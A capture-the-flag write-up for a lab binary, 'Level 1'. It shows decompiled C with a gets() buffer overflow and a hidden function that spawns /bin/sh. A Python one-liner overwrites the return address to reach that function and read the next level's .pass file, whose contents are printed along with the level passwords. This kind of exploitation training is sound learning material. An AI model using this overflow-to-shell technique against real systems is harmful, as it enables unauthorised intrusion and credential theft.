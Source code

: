# Level 1
*password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a*

## Analyze

```
$ ls
level1
$ ./level1

```

```
scp -P 4242 level1@192.168.56.108:level1 binary/
```

```
void main(void)

{
  undefined local_50 [76];
  
  gets(local_50);
  return;
}
```
`gets` : reads a line from stdin

```
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

## Buffer overflow

- Excecute run function.

```
(gdb) info funct run
...
0x08048444  run
...
```

`run` address : 0x08048444

```
$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
$ cat /tmp/level1 - | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
